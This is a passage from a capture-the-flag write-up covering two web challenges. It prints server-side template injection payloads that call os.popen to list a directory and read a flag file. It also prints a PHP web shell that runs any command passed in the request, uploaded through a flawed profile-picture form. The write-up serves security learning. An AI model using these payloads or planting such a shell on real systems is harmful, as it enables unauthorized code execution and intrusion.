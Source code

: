 - A `/challenge` directory existed, possibly containing challenge-related files.

We then checked inside `/challenge`:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /challenge').read() }}
```

**New Finding:**

- A file named **`flag`** was present in `/challenge`.

---

## **Step 4: Extracting the Flag**

Since we had read access, we retrieved the flag using:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```

 **Result:** The flag was successfully displayed in the output.

---

# No Sanity

The challenge provided a web application with a profile picture upload functionality. Due to a flawed implementation, the file upload allowed us to upload a PHP web shell. The ultimate goal was to leverage this vulnerability to obtain remote code execution and retrieve the flag located in the `/root` directory.

### 1. Uploading a Web Shell

- **Objective:** Achieve code execution by uploading a file that would be processed as PHP.
- **Approach:**
We crafted a simple PHP web shell with the following payload:
    
    ```php
    <?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    } else {
        echo "No command provided.";
    }
    ?>
    ```
    
- **Execution:**
We uploaded this file (named `shell.php`) via the profile picture upload functionality. The application confirmed the upload with the message:
    
    ```bash
    The file shell.php has been uploaded
    Path: uploads/shell.php
    ```
    